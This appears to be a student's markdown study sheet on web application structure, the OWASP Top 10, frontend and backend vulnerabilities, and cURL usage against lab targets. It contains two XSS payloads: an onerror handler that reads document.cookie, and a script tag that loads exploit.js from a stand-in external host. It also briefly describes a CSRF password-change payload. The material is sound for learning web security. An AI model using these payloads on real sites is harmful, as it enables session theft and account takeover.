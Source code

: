
# Web Application Layout

three main categories:
- Web Application Infrastructure: 
	-  `Client-Server`
	-  `One Server`
	-  `Many Servers - One Database`
	-  `Many Servers - Many Databases`
- Web Application Components: 
	1.  `Client`
	2.  `Server`
	    -   Webserver
	    -   Web Application Logic
	    -   Database
	3.  `Services`  (Microservices)
	    -   3rd Party Integrations
	    -   Web Application Integrations
	4.  `Functions`  (Serverless) 
- Web Application Architecture: three layers
	- Presentation Layer: frontend
	- Application Layer: backend
	- Data Layer: database
# [OWASP Top 10](https://owasp.org/www-project-top-ten/) vulnerabilities
1. Broken Access Control
2. Cryptographic Failures 
3. Injection
4. Insecure Design
5. Security Misconfiguration
6. Vulnerable and Outdated Components
7. Identification and Authentication Failures
8. Software and Data Integrity Failures
9. Security Logging and Monitoring Failures
10. Server-Side Request Forgery (SSRF)
# FrontEnd Vulnerabilities
## Cross-Site Scripting (XSS)
- **3 types**: `Reflected XSS`, `Stored XSS`, `DOM XSS`
```javascript
#"><img src=/ onerror=alert(document.cookie)>
```
## Cross-Site Request Forgery (CSRF)
- caused by unfiltered user input
- **common `CSRF` attack:** 
	- gain admin priv
	- craft a `JavaScript` payload that automatically changes the victim's password to the value set by the attacker.
	 
```html
"><script src=//www.example.com/exploit.js></script>
```
## Deobfuscation Websites

- [JS Console](https://jsconsole.com)
- [Prettier](https://prettier.io/playground/)
- [Beautifier](https://beautifier.io/)
- [JSNice](http://www.jsnice.org/)
# BackEnd Vulnerabilities
- Broken Auth/Access Control (Bypass login)
- Malicious File Upload
- Command Injection
- SQL Injection (SQLi)
- CVEs

# cURL
## curl
curl url					
option | desc
|--|--|
-o | save in a file 
-s | for silent mode
-k |skip the certificate check
-v | print both the request and response
-I |	display response header
-i 	|	display response header and body
-A | to set our User-Agent from header
-u admin:admin url | 
-H 'Authorization: Basic YWRtaW46YWRtaW4=' |
-X POST -d 'username=admin&password=admin' | 							-X for method and -d for data
-L | follow redirect link
-b 'PHPSESSID=c1nsa6op7vtk7kdis7bcnbadf1' | set cookies
- post ex: curl -X POST -d '{"search":"f"}' -b 'PHPSESSID=9501nu5f74kqgohjh4ogu6debb' -H 'Content-Type: application/json' http://94.237.51.163:42040/search.php| 
- -s | jq											for good json structer
	
**Command** | **Description**
|--|--|
`curl -h` | cURL help menu
`curl inlanefreight.com` | Basic GET request
`curl -s -O inlanefreight.com/index.html` | Download file
`curl -k https://inlanefreight.com` | Skip HTTPS (SSL) certificate validation
`curl inlanefreight.com -v` | Print full HTTP request/response details
`curl -I https://www.inlanefreight.com` | Send HEAD request (only prints response headers)
`curl -i https://www.inlanefreight.com` | Print response headers and response body 
`curl https://www.inlanefreight.com -A 'Mozilla/5.0'` | Set User-Agent header
`curl -u admin:admin http://<SERVER_IP>:<PORT>/` | Set HTTP basic authorization credentials
`curl http://admin:admin@<SERVER_IP>:<PORT>/` | Pass HTTP basic authorization credentials in the URL
`curl -H 'Authorization: Basic YWRtaW46YWRtaW4=' http://<SERVER_IP>:<PORT>/` | Set request header
`curl 'http://<SERVER_IP>:<PORT>/search.php?search=le'` | Pass GET parameters
`curl -X POST -d 'username=admin&password=admin' http://<SERVER_IP>:<PORT>/` | Send POST request with POST data
`curl -b 'PHPSESSID=c1nsa6op7vtk7kdis7bcnbadf1' http://<SERVER_IP>:<PORT>/` | Set request cookies
`curl -X POST -d '{"search":"london"}' -H 'Content-Type: application/json' http://<SERVER_IP>:<PORT>/search.php` | Send POST request with JSON data

## APIs

**Command** | **Description**
|--|--|
`curl http://<SERVER_IP>:<PORT>/api.php/city/london` | Read entry
`curl -s http://<SERVER_IP>:<PORT>/api.php/city/ | jq` | Read all entries
`curl -X POST http://<SERVER_IP>:<PORT>/api.php/city/ -d '{"city_name":"HTB_City", "country_name":"HTB"}' -H 'Content-Type: application/json'`|Create (add) entry
`curl -X PUT http://<SERVER_IP>:<PORT>/api.php/city/london -d '{"city_name":"New_HTB_City", "country_name":"HTB"}' -H 'Content-Type: application/json'` | Update (modify) entry
`curl -X DELETE http://<SERVER_IP>:<PORT>/api.php/city/New_HTB_City` | Delete entry

<!--stackedit_data:
eyJoaXN0b3J5IjpbNTE2OTE3ODUsLTE3NDk4ODg2MTUsMTk2NT
g1Njg2Ml19
-->